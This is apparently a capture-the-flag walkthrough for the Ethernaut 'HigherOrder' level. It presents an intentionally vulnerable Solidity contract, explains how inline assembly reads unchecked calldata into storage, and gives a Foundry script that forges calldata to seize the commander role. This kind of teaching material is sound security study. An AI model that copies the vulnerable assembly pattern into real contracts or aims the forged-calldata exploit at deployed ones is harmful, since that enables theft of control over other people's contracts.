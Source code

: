 # Ethernaut Level 30 HigherOrder

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```

We have to become the commander to pass the game. We have to somehow put a number in treasury that is larger than 255 to claim leadership. It seems impossible, since `registerTreasury(uint8)` takes in only a `uint8`, whose maximum value is 255. However, we can forge a calldata for `registerTreasury(uint8)` to do the trick.

`sstore(slot, value)` stores a value in a 32 bytes slot. `calldataload(offset)` reads 32 bytes from the **input data** of the current call, starts at offset. So, we can put a number that is large enough and still fit in the 32 bytes slot to pass this game.

`IHigherOrder.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IHigherOrder {
    function claimLeadership() external;
    function commander() external view returns (address);
}
```

`HigherOrder.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {IHigherOrder} from "../src/IHigherOrder.sol";

contract HigherOrderScript is Script {
    address target = 0xXXXXXXXX;
    IHigherOrder higherOrder = IHigherOrder(target);
    bytes4 registerTreasurySelector = bytes4(keccak256("registerTreasury(uint8)"));

    function run() external {
        vm.startBroadcast();

        bytes memory registerTreasuryCalldata = abi.encodePacked(
            registerTreasurySelector,
            uint256(256)
        );

        (bool success, ) = target.call(registerTreasuryCalldata);
        require(success, "registerTreasury call failed");

        higherOrder.claimLeadership();
        vm.stopBroadcast();
        console.log("commander:", higherOrder.commander()); 
    }
}
```

Notice that we use a low-level call instead of using the ABI for calling function `registerTreasury` to avoid the `uint8` limitation. 